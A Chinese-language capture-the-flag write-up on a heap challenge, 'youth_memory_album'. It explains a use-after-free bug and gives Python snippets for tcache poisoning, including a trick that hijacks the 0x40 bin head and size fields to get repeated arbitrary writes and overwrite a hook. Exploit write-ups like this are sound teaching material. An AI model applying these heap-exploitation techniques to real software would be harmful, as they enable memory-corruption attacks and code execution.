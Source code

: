# [](#header-3)pwn youth_memory_album

这个题是决赛题，难度和初赛的堆题不分上下，出的人数还是不少

这个题的漏洞点在于 free 后能继续写入、查看，这就意味着能够随意修改 tcachebin 的 fd，搭配 tcachebin attack 就能造成任意地址写入.  
对于这个题，常规 tcachebin attack 如下所示

```py
alloc(1, ...)
alloc(2, ...)
free(3)
free(4)
edit(4, {要写入的内存地址})
alloc(5)    # 4
alloc(6)    # 写入的内存地址
```

笔者需要 free unsortedbin、获取 libc 地址、修改 _hook 函数，但是题目下标限制了只能 alloc 12 个 chunk. 如果每次操作都需要花费 3 ~ 4 个 chunk，那么必然是超过 12 的.  
因此必须换一种思路做. 首先可以通过漏洞查看 0x40 tcachebin 的 fd，推测到当前堆地址

再通过当前堆地址，反推 0x40 bin head 和 0x40 bin size 的地址

![dasctf](/image/qwbqsn/7.png)  

![dasctf](/image/qwbqsn/6.png)  

然后只需要 tcachebin attack 控制住这两个地址，那么后续再修改其他地址时，就不需要构造冗长的 tcachebin attack，直接修改 bin size 和 bin head 指向被修改的地址，然后 alloc 一个 chunk，该 chunk 就会指向被修改的地址

```py
# size40_head_addr 为 bin head
# size40_addr 为 bin size 标志地址
# 在这里首先通过 tcachebin attack 指向 bin head
edit(2, p64(size40_head_addr) + p64(size40_addr))
add(3, b'nothing here')
add(4, b'nothing here')	# size40_head_addr
delete(3)

def edit_head(addr: int):
	edit(4, p64(addr))

# 指向 bin size
edit_head(size40_addr)
add(5, p32(0) + p32(4))

```